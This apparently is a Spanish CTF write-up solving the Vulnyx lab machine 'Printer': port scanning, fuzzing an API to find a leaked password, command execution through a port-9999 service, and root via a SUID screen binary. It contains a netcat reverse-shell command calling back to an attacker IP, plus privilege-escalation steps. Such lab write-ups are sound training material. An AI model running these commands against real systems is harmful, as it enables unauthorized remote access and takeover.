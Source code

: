 ```yaml
---
layout      : post
title       : "Printer - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
optimized_image : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
category    : [ Vulnyx ]
tags        : [ Linux, Vulnyx ]
description : En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx.
---
```


🎩En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx🎩.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como siempre comenzamos realizando un reconocimiento de puertos abiertos para ver por donde podemos empezar a atacar y ver que tenemos en cada puerto.

Para realizar este reconocimiento usaré la herramienta nmap.

```r
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9999/tcp open  abyss
```

Podemos ver que tenemos los siguientes puertos abiertos, 22 (ssh), 80 (http) y 9999 (abyss).

Pero necesito saber algo más de información sobre estos puertos... por lo que lanzaré de nuevo nmap con otros parámetros para lanzar una serie de scripts de enumeración que me ayuden a obtener más información sobre estos puertos abiertos.

![](/assets/images/VULNYX/Printer-Vulnyx/nmap.png)

Ahora ye podemos ver algo más...

En el puerto 80 tenemos un simple servidor Apache... pero lo más curioso está en el puerto 9999, parece que hay una especie de login... por lo que intento conectarme para ver que hay.

A través de netcat me conecto a este puerto y veo que hay un login, pero se me pide una contraseña que no tengo... por lo que toca buscarla.

![](/assets/images/VULNYX/Printer-Vulnyx/nc1.webp)

Continúo enumerando el puerto 80 (http) donde tenemos un servidor Apache.

Tras acceder no encontré nada útil por lo que decidí fuzzear para buscar rutas dentro del servidor.

Comenzaré usando wfuzz.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz1.webp)

Encuentro la ruta `api` por lo que sigo fuzzeando.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz2.webp)

Accedo a la ruta `api/printers` y encuentro lo siguiente.

> "Search for your printer with the following format: printer<id>.<ext>"

Tras ver esto ya se que he de hacer, continuar fuzzeando.

Debemos descubrir un número (el id) y su extensión... y para ello usamos de nuevo wfuzz.

Tras probar y probar descubrí que la extensión era .json, por lo que generando un rango de números del 1 a 9999 puedo descubrir el id.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz3.webp)

Y tras ir probando 1 a 1 cada `id` descubro esto.

![](/assets/images/VULNYX/Printer-Vulnyx/json.webp)

Encontramos una contraseña...

> "$3cUr3Pr1nT3RP4ZZw0rD"

# Explotación [#](explotación) {#explotación}

Tras obtener la contraseña pruebo a utilizarla para conectarme al puerto 9999.

![](/assets/images/VULNYX/Printer-Vulnyx/nc2.webp)

Tras acceder ejecuto el comando `?` para que me muestre la ayuda para ver todos los parámetros que puedo ejecutar y veo que con el comando exec puedo ejecutar comandos en la misma máquina.

```bash
> exec whoami
printer
> exec id
uid=1000(printer) gid=1000(printer) grupos=1000(printer)
```

Por lo que lo aprovecho para introducir una reverse shell en netcat y ganar acceso a la máquina.

```bash
> exec nc -e /bin/bash 192.168.0.32 4444
```

Y gano acceso a la máquina por fin!

![](/assets/images/VULNYX/Printer-Vulnyx/nc3.webp)

Tras acceder ya puedo leer la flag de usuario y proceder al siguiente paso... escalar privielegios.

# Escalada de Privilegios [#](Escalada de Privilegios) {#privesc}

Primero enumero archivos con permisos 4000.

```bash
printer@printer:/var/spool/lpd$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

```bash
printer@printer:/var/spool/lpd$ ls -la /usr/bin/screen
ls -la /usr/bin/screen
-rwsr-xr-x 1 root root 482312 feb 27  2021 /usr/bin/screen
```

Y veo que el binario screen puede servirme para escalar privilegios.

Y es muy sencillo, con screen podemos hacer un attach con el parámetro -x a una sesión o pantalla digamos, que en este caso sería la de root.

De la siguiente forma:

```bash
screen -x root/
```

Y ya nos habremos convertido en root.

![](/assets/images/VULNYX/Printer-Vulnyx/root.webp)



